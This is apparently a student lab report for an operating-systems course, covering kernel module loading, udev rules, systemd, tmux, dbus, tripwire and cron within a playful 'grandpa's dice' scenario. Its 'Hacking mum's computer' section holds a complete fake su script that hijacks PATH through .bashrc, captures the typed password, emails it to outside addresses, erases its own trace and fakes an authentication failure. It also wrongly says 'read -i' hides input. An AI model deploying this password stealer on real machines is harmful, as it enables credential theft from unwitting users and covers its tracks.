



<script>
   $(document).ready(function() {
     $head = $('#header');
     $head.prepend('')
   });
</script>
<div></div>

# VE482 Lab10
# <span style="font-size:0.6em;"> Kexuan, Weili  Dec 12, 2021</span>

## 1. A clean setup

**1. Where to copy the dice module for it to be officially known to the kernel?**

- ` /lib/modules`
- or `/lib/modules/$(uname -r)/kernel/drivers/char` 

**2. What command to run in order to generate the modules.dep and map files?**

- `depmod`

**3. How to ensure the dice module is loaded at boot time, and how to pass it options?**

- On my machine, add file `dicemodule.conf` to the directory `/etc/modules-load.d/`
- Write `dicemodule` in the file
- `dicemodule.ko` will then be loaded at boot

**4. How to create a new friends group and add grandpa and his friends to it?**

```shell
sudo groupadd friends
usermod -aG friends grandpa
usermod -aG friends friend0
usermod -aG friends friend1
```

**5. What is `udev` and how to define rules such that the group and permissions are automatically setup at device creation?**

- `udev` is a replacement for the Device File System (DevFS), which supplies the system software with device events, manages permissions of device nodes and may create additional symlinks in the /dev/ directory, or renames network interfaces. The kernel usually just assigns unpredictable device names based on the order of discovery. Meaningful symlinks or network device names provide a way to reliably identify devices based on their properties or current configuration.
- modify the rules stored in `/lib/udev/rules.d/*.rules`, e.g. `KERNEL=="dice0", ATTRS{idVendor}=="16c0", MODE="0666"`

## 2. A discreet gambling setup

### 2.1 Hacking mum's computer

**1. How adjust the PATH, ensure its new version is loaded but then forgotten?**

modify `~/.bashrc`, add `export PATH=WHERE_YOUR_SU_IS:$PATH` as the last line, and remove the line after the script is finished

**2. What is the exact behavior of su when wrong password is input?**

First, wait for a few seconds (no output, nothing), then use `perror` to output `su: Authentication failure` to stderr, then exit the program su.

**3. When using the read command how to hide the user input?**

use option -i

`read -i`

**4. How to send an email from the command line?**

We need to setup the email using a few utils. We use smtp mail, as `boyanzh` did last year :)

```shell
yay -S mailutils ssmtp  # install mailutils, ssmtp from package manager
sudo vim /etc/ssmtp/ssmtp.conf
```

In the `ssmtp.conf` file, configure the mail:

https://net.sjtu.edu.cn/info/1025/1016.htm

We see that the smtp port is 587.

```shell
#
# /etc/ssmtp.conf -- a config file for sSMTP sendmail.
#
# See the ssmtp.conf(5) man page for a more verbose explanation of the
#

root=shiweili@sjtu.edu.cn

mailhub=mail.sjtu.edu.cn:587

# The full hostname
Hostname=willykid

UseTLS=YES
TLS_CA_File=/etc/ssl/certs/ca-certificates.crt

AuthUser=shiweili@sjtu.edu.cn
AuthPass=$JACCOUNT_PASSWORD
UseSTARTTLS=Yes
```

Also modify `/etc/ssmtp/revaliases`

```shell
# sSMTP aliases
# 
# Format:       local_account:outgoing_address:mailhub
#
# Example: root:your_login@your.domain:mailhub.your.domain[:port]
# where [:port] is an optional port number that defaults to 25.

willykid:shiweili@sjtu.edu.cn:mail.sjtu.edu.cn:587

```

Finally, we test...



Success!



**5. And the fake `su` script...**

Kexuan has also received the password as a carbon copy!

```shell
#!/bin/bash

MAILTO=shiweili@sjtu.edu.cn
CC=kxuan.huang@gmail.com

echo -e "Password: \c"
read -s PASSWD
mail -s "MUM_PASSWD" -C $CC $MAILTO <<< $PASSWD
sleep 5
head -n -1 ~/.bashrc > ~/.bashrc.tmp
mv ~/.bashrc.tmp ~/.bashrc
echo "su: Authentication failure"
exit 1
```



### 2.2 Automatic setup

**1. What is systemd, where are service files stored and how to write one?**

- `systemd` (system-daemon) is a service manager for Linux systems. When run as the first process (PID=1), it initialize the system by bringing up and maintaining userspace services.

- Service files are stored in  `/usr/lib/systemd/system/` on my machine. 

     `sudo find / -name "*.service" | grep "name"` 

- There are 3 sections in a service file:
    - `[Unit]` 
        - `Description=` anything, brief description about the service
        - `After=` services needed to be started before this (seperated by space)
        - `Before=` services needed to be started after this
        - `Requires=` hard dependencies
        - `Wants=` soft dependencies
    - `[Service]` 
        - `EnvironmentFile=` location of the parameter configuration file
        - `ExecStart=` / `ExecStartPre=` / `ExecStartPost=` the command to be executed when / before / after a service starts
        -  `Type=` the way to start the process, one out of `simple` / `forking` / `oneshot` / `dbus` / `notify` 
    - `[Install]` that describes options related with the service installation.
        - `WantedBy=` targers depend on this

**2. How to get a systemd service to autostart?**

```
sudo systemctl enable --now $SERVICENAME.service
```

**3. What is the difference between running tmux from the systemd service or from the gp-2.10 daemon?**

- Running `gp-2.10` in the shell creates a process, after session closes the process is killed
- Running on `tmux` makes it possible to reattach the window and do other stuff
- Running from `systemd` allows the creation of the `tmux` session when the system is booted. The behavior is not monitored since `/etc/systemd` is not tracked.

**4. What is dbus and how to listen to all the system events from the command line?**

- `man dbus-monitor`
- http://www.freedesktop.org/software/dbus/
- D-Bus is a message bus system, a simple way for applications to talk to one another. In addition to interprocess communication, D-Bus helps coordinate process lifecycle; it makes it simple and reliable to code a "single instance" application or daemon, and to launch applications and daemons on demand when their services are needed.

- `dbus-monitor --system`

**5. What is tmux, when is it especially useful, and how to run a detached session?**

**tmux** is a terminal multiplexer: it enables a number of terminals to be created, accessed, and controlled from a single screen.  tmux may be detached from a screen and continue running in the background, then later reattached.

Useful:

- When we leave the current terminal session and come back without terminating current running processes;
- Create separate sessions, and split screen

**6. What is `tripwire`, what are some alternatives, and why should the configuration files also be encrypted and their corresponding plaintext deleted?**

- Tripwire® Configuration Manager gives you the ability to monitor the configuration of Amazon Web Services (AWS), Azure-based assets, and Google Cloud Platform (GCP) from a single console. Rather than providing misconfiguration alerts to over-burdened security staff, Tripwire Configuration Manager gives you the option to have your configuration automatically enforced. -- from tripwire.com

- Basically tripwire can monitor critical system files and make reports when they are moved or modified.

- Alternatives: AIDE, Osquery, Ossec, Samhain, atomicorp and so on
- They should be encrypted, otherwise hackers may target locations not monitored by tripwire, or target the specific behavior of tripwire to make fake reports and so on.

**7. What is cron and how to use it in order to run tasks at a specific time?**

- crond - daemon to execute scheduled commands

- use `crontab` to edit config file for cron

  - Format:

  - ```shell
    #MIN HOUR DOM MON DOW CMD /executable/to/be/executed
    
    #Field    Description    Allowed Value
    #MIN      Minute field    0 to 59
    #HOUR     Hour field      0 to 23
    #DOM      Day of Month    1-31
    #MON      Month field     1-12
    #DOW      Day Of Week     0-6
    #CMD      Command         Any command to be executed.
    ```

**8. Implementation**

Run a script to monitor dbus info, and remove dices immediately when mum logs in, and load the dices when grandpa logs in (and mum is away).

```shell
#!/bin/bash

cleanup() {
	rmmod dicedevice || exit 1
}

welcome() {
	insmod /lib/module/dicedevice.ko || exit 1
	
}
```

